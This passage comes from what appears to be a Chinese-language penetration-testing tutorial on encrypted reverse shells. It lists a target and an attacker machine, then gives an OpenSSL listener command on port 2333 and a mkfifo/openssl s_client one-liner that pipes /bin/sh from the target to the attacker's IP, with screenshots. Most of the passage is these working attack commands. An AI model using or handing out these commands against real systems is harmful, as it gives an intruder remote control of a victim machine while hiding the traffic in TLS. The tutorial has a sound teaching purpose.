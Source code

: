 - 系统：Linux
- IP：192.168.1.8

攻击机：

- 系统：Linux
- IP：47.xxx.xxx.72

假设我们从目标机反弹 shell 到攻击机 。首先需要利用上一步生成的自签名证书，在攻击机上使用 OpenSSL 监听一个端口，在这里使用 2333 端口：

```
openssl s_server -quiet -key key.pem -cert cert.pem -port 2333
```

[![img](images/20210423205834-9cd6cdc2-a433-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210423205834-9cd6cdc2-a433-1.png)

此时 OpenSSL 便在攻击机的 2333 端口上启动了一个 SSL/TLS server。

这时在目标机进行反弹 shell 操作，命令为：

```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 47.xxx.xxx.72:2333 > /tmp/s; rm /tmp/s
```

[![image-20210505233915830](images/image-20210505233915830.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210423205835-9d206d6a-a433-1.png)

